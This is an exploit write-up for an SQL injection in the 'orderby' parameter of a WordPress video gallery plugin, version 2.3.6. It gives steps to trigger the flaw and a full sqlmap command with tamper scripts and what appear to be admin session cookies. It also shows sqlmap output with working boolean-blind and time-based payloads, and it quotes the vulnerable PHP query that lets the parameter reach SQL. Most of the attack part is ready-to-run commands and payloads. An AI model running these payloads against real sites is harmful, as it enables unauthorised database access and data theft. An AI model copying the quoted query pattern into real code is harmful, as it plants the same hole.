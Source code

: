 #### Exploit Title: Wordpress Video Gallery - YouTube Gallery and Vimeo Gallery Plugin SQL Injection 
#### Date: 2024-07-05
#### Exploit Author: tmrswrr
#### Category : Webapps
#### Vendor Homepage: https://total-soft.com/wp-video-gallery/
#### Version 2.3.6

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Video Gallery > Create > Use Theme` and save it.

2. After saving, go back to TS Video Gallery and click the title: https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=asc

3. WordPress database error: [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\\\' desc LIMIT 15 OFFSET 0' at line 1]
SELECT `id`,`TS_VG_Title`,`TS_VG_Option`,`TS_VG_Sort`,`created_at` FROM wp_ts_galleryv_manager ORDER BY TS_VG_Title\\\' desc LIMIT 15 OFFSET 0

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/9.png">

5. Search for the `orderby` parameter.

### SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=desc" --batch --dbms=mysql --thread 10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 -p orderby --cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|0b78b25e2683d7f381967019db82b3f3fd9b06f1524ec128af92a74fe7c68e8f; \
wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|307f68044e4c2632757b13f86f770ceda3c9c7866a0b595b33a7a2f675224a15; \
wordpress_test_cookie=WP Cookie check; \
wp-settings-time-1=1720173805" --thread 10
```

### RESULT

sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
[08:37:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:37:45] [INFO] the back-end DBMS is MySQL
[08:37:45] [PAYLOAD] (seLecT/**/(cAsE/**/WHen/**/(veRSIOn()/**/liKe/**/0x254d61726961444225)/**/ThEN/**/0x54535f56475f5469746c65/**/elSE/**/(seLecT/**/6685/**/UNiON/**/seLecT/**/9990)/**/End))
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/10.png">

# Vulnerable Code:
	public static function tsvg_get_galleries( $tsvg_per_page = 10, $tsvg_page_number = 1 ) {
		global $wpdb;
		$tsvg_get_result = $wpdb->get_results(
			$wpdb->prepare(
				'SELECT `id`,`TS_VG_Title`,`TS_VG_Option`,`TS_VG_Sort`,`created_at` FROM %1$s %2$s %3$s ORDER BY %4$s %5$s LIMIT %6$d OFFSET %7$d',
				esc_sql( $wpdb->prefix . 'ts_galleryv_manager' ),
				isset( $_REQUEST['s'] ) && ! empty( sanitize_text_field( $_REQUEST['s'] ) ) ? "WHERE TS_VG_Title like " : " ",
				isset( $_REQUEST['s'] ) && ! empty( sanitize_text_field( $_REQUEST['s'] ) ) ? '%' . $wpdb->esc_like( $_REQUEST['s'] ) . '%' : " ",
				isset( $_REQUEST['orderby'] ) && ! empty( sanitize_text_field( $_REQUEST['orderby'] ) ) ? sanitize_text_field( $_REQUEST['orderby'] ) : "id",
				isset( $_REQUEST['order'] ) && ! empty( sanitize_text_field($_REQUEST['order']) ) ? ' ' . sanitize_text_field( $_REQUEST['order'] ) : "ASC",
				(int) $tsvg_per_page,
				(int) ( $tsvg_page_number - 1 ) * $tsvg_per_page,
			),
			ARRAY_A
		);
		return $tsvg_get_result;
	}



